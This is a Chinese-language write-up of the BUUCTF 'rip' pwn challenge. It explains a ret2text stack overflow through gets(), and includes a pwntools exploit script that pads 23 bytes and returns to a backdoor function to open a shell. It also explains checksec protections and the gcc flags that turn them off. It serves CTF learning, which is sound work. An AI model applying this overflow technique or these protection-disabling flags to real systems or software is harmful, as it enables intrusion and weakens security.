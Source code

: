 # [[Buuctf]rip](https://buuoj.cn/challenges#rip)

## 知识点

- [ret2text](https://www.jianshu.com/p/045f274554cd)

## 解题步骤
1. 用`nc`连接试一试   

![](./img/rip_ls.png)     


2. `file pwn1`查看`pwn1`的文件类型，发现下载的`pwn1`为一个`elf`文件
3. 安装`pwntools`
```bash
sudo pip3 install pwntools
```
4. 使用`Checksec`检查一下文件的属性

```bash
checksec ./pwn1

Arch:     amd64-64-little 
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments

```
- 这个程序没有进行任何保护

5. 使用`64`位对应的`IDA`打开程序    
6. `view->open subview->Strings/shift+F12`打开字符串窗口，发现有`system`,`/bin/sh`,对于这两个应该敏感起来，因为`system（/bin/sh）`这句代码能让我们直接获取`shell`           

![](./img/rip_string.png)     

7. 双击`bin/sh`跟进，然后安装`ctrl+x`查看一下哪里调用了这个字符串，点击`ok`跳转    

![](./img/rip_跟进.png)       

![](./img/rip_fun.png)     

- 这也就是题目提供的后门函数(`shell`函数)，其对应的地址为`0000000000401186`      

![](./img/rip_funadd.png)     

7. `F5`查看`main`函数的伪代码,并没有调用`fun`函数                 

![](./img/rip_gets.png)      

- 发现有**gets**函数
    - `gets`函数的缓冲区是由用户本身提供，由于用户无法指定一次最多可读入多少字节，导致此函数存在巨大安全隐患。换句话来说，**就是`gets`若没有遇到 `\n` 结束，则会无限读取，没有上限**。

8. `char s[15]`，或者双击`s`，发现`s`为15字节      

![](./img/rip_15字节.png)       

9. 但是`s`后面还跟着`db 8 dup(?)`    

```
db 表示数据的类型是字节型
dup() 重复定义圆括号中指定的初值，次数由前面的数值决定
?： 只分配存储空间，不指定初值
```
- 因此 最后偏移量为 ： 15+8 = 23

10. 编写`exp`，进行栈溢出覆盖    
```python
from pwn import *

p = remote("node4.buuoj.cn",27296) # 会连接到我们指定的地址及端口

payload=b'A'15+b'B'8+p64(0x401186+1) # 进行填充

# 15个A用来填充s，再发送8个字节用来填充b
# p32() 可以让我们转换整数到小端序格式. p32 转换4字节. p64 和 p16 则分别转换 8 字节 和 2 字节
# +1是为了堆栈平衡
p.sendline(payload)
# sendline(payload) 发送payload，并进行换行（末尾\n）
p.interactive()
#  c.interactive() 允许我们在终端里将命令传送到远程服务器.
```

11. 运行完`exp`后，进入了`shell`，就可以`ls`看到`flag`    

![](./img/rip_flag.png)      


## [checksec](https://github.com/slimm609/checksec.sh)

- Checksec 是一个 bash 脚本，用于检查可执行文件（如 PIE、RELRO、Canaries、ASLR、Fortify Source）的属性
- 示例
```bash
Arch:     amd64-64-little 
RELRO:    Partial RELRO 
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
### Arch

- 程序架构信息，判断是64位还是32位，exp编写的时候是p64还是p32

### RELRO(Relocation Read-Onl)

- `Relocation Read-Onl`:重定位表只读
    - 重定位表即 `.got（Global Offset Table）` 和 `.plt` 两个表
- `RELRO`分成两种：`Partial RELRO`和`FULL RELRO`
    - `Partial（部分）RELRO`：则代表对`GOT`表具有写权限，容易受到攻击，例如攻击者可以`atoi.got`为`system.plt`,进而输入`/bin/sh\x00`获得`shell`
    - `FULL(完全) RELRO`：使整个`GOT`只读，从而无法被覆盖，但这样会大大增加程序的启动时间，因为程序在启动之前需要解析所有的符号。
- `Relocation Read-Onl`使用
```bash
gcc -o hello test.c //默认情况下，是Partial RELRO
gcc -z norelro -o hello test.c // 关闭，即No RELRO
gcc -z lazy -o hello test.c // 部分开启，即Partial RELRO
gcc -z now -o hello test.c // 全部开启，即Full RELRO
```

### Stack(Stack-canary)

- 保护栈溢出
- 在初始化一个栈帧时在栈底（`stack overflow` 发生的高位区域的尾部）设置一个随机的 `canary` 值，当函数返回之时检测 `canary` 的值是否经过了改变，以此来判断 `stack/buffer overflow` 是否发生，若改变则说明栈溢出发生，程序走另一个流程结束，以免漏洞利用成功。 因此我们需要获取 `Canary` 的值，或者防止触发 `stack_chk_fail` 函数，或是利用此函数。

### NX

- `NX`即`No-eXecute`（不可执行）的意思，`NX（DEP）`的基本原理是**将数据所在内存页标识为不可执行**，当程序溢出成功转入 shellcode 时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。     

![](./img/dep.png)      

- `NX`使用
```bash
gcc -o test test.c                   // 默认情况下，开启NX保护
gcc -z execstack -o test test.c      // 禁用NX保护
gcc -z noexecstack -o test test.c    // 开启NX保护
```

### PIE(Position-Independent Executable)

- 与`ASLR(address space layout randomization,地址空间分布随机化)`技术类似
- `ASLR`将程序运行时的堆栈以及共享库的**加载地址随机化**，而`PIE`则在编译时将**程序编译为位置无关**，即程序运行时各个段（如代码段等）加载的虚拟地址也是在装载时才确定。攻击者将对程序的内存布局一无所知，传统改写GOT表项也难以进行，因为攻击者不能获得程序的.got段的虚地址。
- ASLR和DEP配合使用，能有效阻止攻击者在堆栈上运行恶意代码，可以防范基于Ret2libc方式的针对DEP的攻击
- `PIE使用`
```bash
gcc -pie -o test test.c        // 开启PIE
gcc -no-pie -o test test.c        // 关闭PIE
```
### RWX(read-write-executable)

- `Has RWX segments`表示`源程序几乎没有开启任何保护，并且有可读，可写，可执行段`

## 栈

### C语言内存分布
- `Stack(栈)`：用于静态分配中的存放局部变量
- `BSS`：存储全局变量
- `Heap`：则负责存储动态分配的内存空间，如`c`语言中的`malloc/free`分配内存时，就会分配到`Heap`区域
- 而Heap与Stack中间的内存空间，则是共享的一片内存空间，Heap从低地址向高地址分配空间，Stack从高地址向低地址分配空间，从而完整高效的使用了这一片内存空间

### 栈中的内存分布与工作原理


## 参考资料

- [(buuctf) - pwn入门部分wp - rip -- pwn1_sctf_2016](https://www.cnblogs.com/Jlay/p/pwn_wp1.html)
- [BUUCTF (PWN) RIP详细分析](https://blog.csdn.net/qy201706/article/details/105397766)
- [Linux PWN（一）漏洞缓解机制&checksec](http://www.gandalf.site/2019/03/linux-pwn.html)
- [checksec](https://github.com/slimm609/checksec.sh)
- [PWN-最新checksec的安装和使用](https://blog.csdn.net/qq_43430261/article/details/105516051)
- [pwn-题型专栏](https://blog.csdn.net/qq_51032807/article/details/112545011)
- [详细的栈的工作原理以及rip的解题过程](https://www.cnblogs.com/refrain-again/p/15001283.html)
- [一步一步学pwntools](https://bbs.pediy.com/thread-247217.htm)